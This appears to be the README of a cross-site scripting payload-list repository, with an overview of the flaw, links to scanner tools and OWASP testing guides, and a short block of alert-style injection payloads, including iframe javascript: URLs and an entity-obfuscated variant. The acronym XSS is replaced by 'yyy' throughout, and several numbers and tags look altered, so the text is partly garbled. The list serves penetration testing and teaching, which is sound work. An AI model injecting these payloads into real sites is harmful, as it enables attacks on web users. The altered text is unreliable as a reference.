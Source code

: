 
### 🚀 Cross Site Scripting ( yyy ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e2354dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/yyy-payload-list/23">

##### Overview : 

Cross-Site Scripting (yyy) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. yyy attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use yyy to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of yyy flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :

```
<!-- Project Name  : Cross Site Scripting ( yyy ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->




"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>
"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>







<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<script ^__^>alert(String.fromCharCode(49))</script ^__^
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>







###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-0023)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-0023)

###### DOM Based yyy

* 👉 https://www.owasp.org/index.php/DOM_Based_yyy

###### Cross-Site Scripting (yyy) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/yyy

#### Recommended books :

* [yyy Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/yyy_Attacks.html?id=dPhqDe0WHZ8C)

* [yyy Cheat Sheet](https://leanpub.com/yyy)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/yyy-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/yyy-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/20238/05/yyy-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
--end--

